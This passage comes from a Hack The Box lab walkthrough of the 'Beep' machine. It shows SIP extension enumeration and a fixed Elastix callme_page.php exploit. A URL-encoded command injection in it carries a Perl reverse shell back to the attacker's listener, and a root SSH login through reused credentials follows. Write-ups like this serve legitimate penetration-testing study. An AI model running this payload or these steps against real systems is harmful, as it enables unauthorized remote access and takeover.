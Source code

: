Exploit did not work, investigating the server response it told that a different extension parameter was necessary:

![Pasted image 20210427181739.png](../../zzz_res/attachments/Pasted_image_20210427181739.png)

While the full explanation can be found here ([https://hakin9.org/voip-hacking-techniques/](https://hakin9.org/voip-hacking-techniques/)) after some enumeration it appears that the right number was 233:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ svwar -m INVITE -e100-500 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
```

Fixed the exploit, a reverse shell is obtained:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ python 18650-fixed.py
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.24%3a5505%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ nc -nlvp 5505        
listening on [any] 5505 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.7] 35833
whoami
asterisk
```

# Privilege Escalation

## Root login due to credentials reuse (#1)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ ssh root@10.10.10.7 -oKexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
root@10.10.10.7's password: 
Last login: Tue Apr 27 17:42:23 2021 from 10.10.14.24

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami && hostname && cat /home/fanis/user.txt && cat /root/root.txt && ifconfig -a
root
beep
4b4455d3b590c2f6505a8aa3ebc460a9
97c50cb86a99c086e8bec4720e0c423d
eth0      Link encap:Ethernet  HWaddr 00:50:56:B9:0C:8C  
          inet addr:10.10.10.7  Bcast:10.10.10.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
```
